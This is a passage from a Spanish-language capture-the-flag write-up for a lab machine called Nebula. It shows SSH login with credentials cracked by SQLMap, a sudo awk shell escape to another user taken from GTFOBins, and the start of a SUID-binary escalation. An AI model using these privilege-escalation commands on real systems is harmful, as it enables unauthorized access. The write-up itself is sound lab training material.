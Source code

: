 Vemos que una de las columnas se llama **`UserSSH`**, por lo que automáticamente debería llamarnos la atención. Otra cosa muy importante es que **`SQLMap`** ha conseguido la contraseña del usuario **`pmccentral`** mediante un ataque de diccionario, por lo que tenemos su usuario y su contraseña (`pmccentral`:`999999999`).

Tratemos de iniciar sesión mediante **`SSH`**:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Nebula]
└─# ssh pmccentral@192.168.1.104
pmccentral@192.168.1.104's password: 999999999
pmccentral@laboratoryuser:~$
```

¡Qué bien! Ya estamos dentro de la máquina como el usuario **`pmccentral`**.

### Subida de privilegios #1
Hemos avanzado considerablemente hacia la obtención del **`control total`** sobre la máquina, aunque debemos proceder con cautela y mantener la compostura, ya que aún enfrentamos obstáculos adicionales.

Para iniciar, procederé a ejecutar el comando `sudo -l` con el fin de revisar los privilegios disponibles en la máquina:

```shell
pmccentral@laboratoryuser:~$ sudo -l
[sudo] password for pmccentral: 999999999
Matching Defaults entries for pmccentral on laboratoryuser:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pmccentral may run the following commands on laboratoryuser:
    (laboratoryadmin) /usr/bin/awk
pmccentral@laboratoryuser:~$
```

Observamos que se nos concede la capacidad de ejecutar el binario **`AWK`** con los privilegios del usuario **`laboratoryadmin`**. Para obtener una **`Shell`** interactiva, he empleado la funcionalidad de [**`GTFObins`**](https://gtfobins.github.io/gtfobins/awk/#sudo), un recurso valioso para identificar posibles exploits en binarios como **`AWK`**:

```shell
pmccentral@laboratoryuser:~$ sudo -u laboratoryadmin awk 'BEGIN {system("/bin/bash")}'
laboratoryadmin@laboratoryuser:/home/pmccentral$
```

¡Excelente! Estamos como el usuario **`laboratoryadmin`**. Ahora sí podemos seguir e intentar conseguir el **`control total`** de la máquina.

### Subida de privilegios #2
Este paso será bastante sencillo y es que tras una rápida insepcción al directorio base del usuario **`laboratoryadmin`** veo un directorio que me llama la atención llamado **`autoScripts`**. Veamos lo que hay dentro:

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ ls -la
total 32
drwxr-xr-x 2 laboratoryadmin laboratoryadmin  4096 Dec 18 20:16 .
drwx------ 8 laboratoryadmin laboratoryadmin  4096 Dec 18 16:15 ..
-rwxrwxr-x 1 laboratoryadmin laboratoryadmin     8 Dec 18 20:16 head
-rwsr-xr-x 1 root            root            16792 Dec 17 15:40 PMCEmployees
laboratoryadmin@laboratoryuser:~/autoScripts$
```
